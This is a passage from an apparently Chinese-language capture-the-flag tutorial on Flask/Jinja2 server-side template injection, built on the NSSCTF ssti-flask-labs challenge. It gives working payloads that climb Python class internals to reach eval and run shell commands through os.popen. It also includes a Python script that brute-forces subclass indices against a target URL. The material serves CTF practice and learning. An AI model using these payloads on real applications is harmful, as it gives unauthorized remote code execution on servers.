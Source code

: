 那么如何去实现这个过程？这里其实有几种种方法，纯手动寻找，使用外部的python脚本 或者 直接使用模板语法构造通用的payload。

我们还是以 `eval` 函数为例子：

> 注意本次教程的所有实验基于 NSSCTF 题目 [ssti-flask-labs](https://www.nssctf.cn/problem/13) ，您可以直接在NSSCTF平台上开启靶机，也可以在GitHub本地部署源码：[X3NNY/sstilabs](https://github.com/X3NNY/sstilabs)

先演示一次手工过程：

**拿基类：**

`{{().__class__.__base__}}`

![image-20231130011655676](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737471.png)

**拿子类:**

`{{().__class__.__base__.__subclasses__()}}`

![image-20231130011828104](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737572.png)

这里我们使用 `<class 'warnings.catch_warnings'>`

![image-20231130012025905](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737221.png)

定位到 194

`{{().__class__.__base__.__subclasses__()[194]}}`

![image-20231130012111227](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737332.png)

初始化对象，获取函数方法合集，并确定存在内建 `eval` 函数：

`{{().__class__.__base__.__subclasses__()[194].__init__.__globals__}}`

![image-20231130012323844](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737531.png)

==但由于 `eval` 在全局域中是一个 `built-in function` 即 **内置函数** ，所以我们无法直接通过 `__globals__['eval']` 来直接调用内置函数，Python的内置函数和对象通常是全局可用的，但它们通常不是函数内部的一部分。因此，要在函数内部访问内置函数（如`eval`）或内置对象（如`os`），需要通过`__builtins__`来访问。==

`{{().__class__.__base__.__subclasses__()[194].__init__.__globals__.__builtins__['eval']('__import__("os").popen("ls /").read()')}}`

![image-20231130020148213](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737658.png)

手工虽然方便调试，但是极其麻烦，而且上述的payload并不是通用的，目标机器环境不一样，序号也会改变，所以自动化是一个很必要的步骤。

根据上面的手工过程，我们可以选择==用Python脚本实现自动化查找，也可以使用模板语法的方式直接构建自动化的通用 payload：==

```python
# 使用 python 脚本 用于寻找序号
url = "http://url/level/1"
def find_eval(url):
    for i in range(500):
        data = {
            'code': "{{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}",
        }
        res = requests.post(url, data=data, headers=headers)
        if 'eval' in res.text:
            print(data)
find_eval(url)
```
